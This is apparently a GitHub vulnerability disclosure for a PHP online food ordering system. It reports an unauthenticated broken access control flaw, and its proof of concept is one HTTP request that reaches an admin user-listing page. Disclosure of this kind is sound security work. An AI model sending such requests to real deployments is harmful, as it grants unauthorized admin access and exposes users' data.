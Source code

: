 # Broken Access Control in Online Food Ordering System


## Vendor and Product information:
* **Vendor:** Codezips
* **Product:** Online Food Ordering System
* **Product URL:** https://codeastro.com/online-food-ordering-system-in-php-mysql-with-source-code/

## Description
The Online Food Ordering System application has a Broken Access Control vulnerability, enabling an unauthenticated attacker to access restricted admin pages. This security flaw could result in unauthorized actions, exposure of sensitive information, or potential disruption of the system's functionality.

## Proof of Concept
**HTTP Request Example**
``` http request
GET /OnlineFood-PHP/admin/all_users.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/OnlineFood-PHP/admin/update_users.php?user_upd=7
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

## Screenshot
![image](https://github.com/user-attachments/assets/dabffc03-33ed-409c-ba96-cf606d41a220)



## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
